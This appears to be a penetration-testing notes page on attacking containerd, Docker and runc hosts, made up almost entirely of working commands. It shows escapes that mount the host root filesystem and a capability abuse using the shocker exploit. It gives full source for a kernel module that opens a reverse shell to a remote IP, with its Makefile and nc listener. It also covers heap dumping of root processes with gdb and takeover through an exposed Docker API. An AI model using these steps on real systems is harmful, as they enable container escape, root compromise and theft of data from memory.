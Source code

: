 # Containerd Attacks

## 1. Use case -User privileges in a host which is running Containerd

* `ctr image list` Check containerd images&#x20;
* Next Start a container and add it to host machine&#x20;
  * `ctr run --mount type=bind,src=/,dst=/,options=rbind -t ubuntu:latest ubuntu bash`
  * After that point you can reach root file system.&#x20;

## 2. Use Case - Abusing DAC\_READ\_SEARCH Capability

* Start a container in root mode with privileges.
* &#x20;`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`
* Check `capsh --print`
  * And find cap\_dac\_read\_search
  * `mount`
  * Check /etc/hosts is mounted or not
  * if it is there use the code [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  * Change there main function in order to give argument and read anything in host system.&#x20;
  * ![](../../.gitbook/assets/image.png)

## 3. Use Case - User privileges and Abusing SYS\_Module Capability

If there is a way of privs with user rights and taking root by using containers. Create containerd image there and check sys\_mod cap and after that reach root file system and heap of process there.&#x20;

`ctr image list`

`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`

Create that c file&#x20;

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.0.2.15/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Create Makefile&#x20;

```

obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

`make`

Open another shell and run `nc -vnlp 4444`

`insmod reverse-shell.ko`

You have reached the root directories.

&#x20;**Reaching root process heaps with gdb**&#x20;

```
cat /proc/{PID Number}/maps
gdb --batch --pid {PID Number} -ex "dump memory heap.dump 0x55da28f1a000 0x55da28f3b000";
# take here heap section then

strings heap.dump
```



## 4. Use Case Docker port exposed on remote machine&#x20;

if there is open docker port in remote machine we can connect to there.&#x20;

* `export DOCKER_HOST=REMOTE_HOST_IP:2375`
* `docker run -it -v /:/host ubuntu:22.04 bash`
* `chroot /host`\
  \
  `Now we are in remote machine file system.`

## 5. Use Case Runc in victim machine and priv esc with runc

````
runc spec

# open config.json file in the directory and these in mount section 

```python
{
"type": "bind",
"source": "/",
"destination": "/",
"options": ["rbind",
            "rw",
            "rprivate"
        ]
},
```

# then 

mkdir rootfs

runc run demo


````
